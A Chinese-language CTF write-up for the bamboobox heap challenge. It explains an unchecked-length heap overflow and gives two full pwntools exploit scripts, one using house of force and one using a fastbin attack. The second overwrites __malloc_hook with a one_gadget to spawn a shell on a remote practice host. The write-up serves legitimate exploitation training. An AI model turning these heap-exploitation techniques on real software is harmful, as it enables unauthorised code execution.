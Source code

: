 ## hitcontraining_bamboobox

> 题目解法比较多，可以 fastbin 改 malloc_hook 搭配 realloc 运行 onegadget ；house of force 向上抬 topchunk 改 goodbye 函数地址；house of force 向下压 topchunk 改 malloc_hook 。

### 基本情况

用 chunk_ptr 和 chunk_size  两个列表维护，基于下标操作堆块。增删查改功能都有。

### 漏洞

修改函数要求输入修改长度，对该长度没有限制，造成堆溢出：

```c
printf("Please enter the length of item name:", &buf);
read(0, &v4, 8uLL);
length = atoi(&v4);
printf("Please enter the new name of the item:", &v4);
//直接写入，没有对size进行检查
*(_BYTE *)(chunk_ptr_list[2 * v2] + (signed int)read(0, (void *)chunk_ptr_list[2 * v2], length)) = 0;
```

### 思路

> fastbin 攻击 malloc_hook 方法和正常套路流程差不多，最后贴 exp 。

house of force 使用条件都满足，先明确将 topchunk 向上调多少。申请好等等用来溢出修改 topchunk size 的 chunk 之后，gdb 调试。

![image-20201103111102583](https://gitee.com/mrskye/Picbed/raw/master/img/20201103111102.png)

这里就直接将堆申请覆盖整个第一个堆块，距离计算：

```python
#(0x603000-0x603090)-0x10=-0xa0
add(-0xa0,'b')
add(0x10,'skye'*2+p64(elf.sym['magic']))
```

![image-20201103112332803](https://gitee.com/mrskye/Picbed/raw/master/img/20201103112332.png)

后面就申请一个堆，写入内容，也就是任意地址写。

### EXP

house of force

```python
from pwn import *
context(log_level='debug',os='linux',arch='amd64')

p = process("./bamboobox")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
elf = ELF("./bamboobox")
# p = remote("node3.buuoj.cn",29945)
# libc = ELF("./libc-2.23.so")

def add(size,content):
	p.recvuntil(':')
	p.sendline('2')
	p.recvuntil(':')
	p.sendline(str(size))
	p.recvuntil(':')
	p.send(content)

def show():
	p.recvuntil(':')
	p.sendline('1')

def edit(id,size,content):
	p.recvuntil(':')
	p.sendline('3')
	p.recvuntil(':')
	p.sendline(str(id))
	p.recvuntil(':')
	p.sendline(str(size))
	p.recvuntil(':')
	p.send(content)

def remove(id):
	p.recvuntil(':')
	p.sendline('4')
	p.recvuntil(':')
	p.sendline(str(id))

add(0x68,'a')
payload = 'a'*0x68+p64(0xffffffffffffffff)
edit(0,len(payload),payload)
add(-0xa0,'b')
add(0x10,'skye'*2+p64(elf.sym['magic']))


p.recvuntil(':')
p.sendline('5')

# gdb.attach(p)
p.interactive()
```

fastbin attack

```python
from pwn import *
context(log_level='debug',os='linux',arch='amd64')

# p = process("./bamboobox")
# libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
elf = ELF("./bamboobox")
p = remote("node3.buuoj.cn",29945)
libc = ELF("./libc-2.23.so")

def add(size,content):
	p.recvuntil(':')
	p.sendline('2')
	p.recvuntil(':')
	p.sendline(str(size))
	p.recvuntil(':')
	p.send(content)

def show():
	p.recvuntil(':')
	p.sendline('1')

def edit(id,size,content):
	p.recvuntil(':')
	p.sendline('3')
	p.recvuntil(':')
	p.sendline(str(id))
	p.recvuntil(':')
	p.sendline(str(size))
	p.recvuntil(':')
	p.send(content)

def remove(id):
	p.recvuntil(':')
	p.sendline('4')
	p.recvuntil(':')
	p.sendline(str(id))

add(0x100,'top')
add(0x68,'overloping')#1
add(0x400-0x10,'end')
add(0x68,'/bin/sh\x00protect')#3

remove(0)

payload = 'a'*0x60+p64(0X180)#+'\x00'
edit(1,len(payload),payload)

remove(2)

add(0x100,'top')

show()
p.recvuntil("1 : ")
leak_addr = u64(p.recv(6).ljust(8,'\x00'))
libc_base = leak_addr-0x3c4b78
log.info("libc_base:"+hex(libc_base))
malloc_hook = libc_base+libc.sym['__malloc_hook']
log.info("malloc_hook:"+hex(malloc_hook))
realloc = libc_base+libc.sym['realloc']


add(0x68,'skye')#2
remove(2)
edit(1,len(p64(malloc_hook-27-8)),p64(malloc_hook-27-8))
add(0x68,'skye')

'''
0x45226 execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4527a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xf0364 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf1207 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL

'''
onegadget = libc_base + 0x4526a#0x4527a
add(0x68,'a'*11+p64(onegadget)+p64(realloc))
# gdb.attach(p)
p.recvuntil(':')
p.sendline('2')
p.recvuntil('name:')
p.sendline(str(0x68))


p.interactive()
```

